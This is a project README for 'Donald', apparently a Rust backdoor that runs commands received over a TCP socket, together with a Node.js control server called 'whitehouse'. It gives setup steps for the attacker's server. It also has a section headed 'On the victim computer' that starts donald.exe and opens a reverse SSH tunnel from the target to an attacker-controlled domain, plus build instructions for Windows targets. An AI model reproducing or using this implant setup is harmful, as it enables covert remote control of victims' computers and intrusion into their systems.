

# Donald

_back to white house_

Donald takes an message from a TCP socket and run system command : cmd(message);
It's a puppet.

```
       ////\\\\
     ////    \\\\
    |    O  O    |
    |      ^      |
    |   \\_____/   |
     \\            /
      \\__________/
```

## Why ?

If you succeed to create a reverse shell with a proxy ( like wiht ssh ) you may want to run custom command from your server.

### How to setup the server ?



1. Edit /etc/ssh/sshd_config to set GatewayPorts to yes
2. Setup proxychains in socks4 127.0.0.1 <ZPORT>
3. cd whitehouse && npm install && node app.js (sudo apt update && sudo apt install nodejs npm -y)
4. Configure nginx as reverse proxy for the node application (sudo apt install nginx)
5. Configure nginx with https certificate (sudo certbot --nginx -d <domain>)
6. Run the app.js in a first terminal
7. Prepare a second terminal : "echo 'test' | proxychains 127.0.0.1 <DONALD_LISTENPORT>"

### On the victim computer

1. Start donald.exe
2. ssh -o StrictHostKeyChecking=accept-new -R <ZPORT> -i .\id_rsa <SSH_USER>@<domain> (use -v -v -v -v for debug) (and obviously put the id_rsa file on the target and associated public key on the server)

## Build

Edit build.rs with adapted values.

Linux target :

```
cargo build --release
```

Windows target :

```
cargo build --release --target x86_64-pc-windows-gnu
```

If error this might solve:

```
sudo apt install mingw-w64
rustup target add x86_64-pc-windows-gnu
```

## Setup

## Debug

It's rust. No bug.
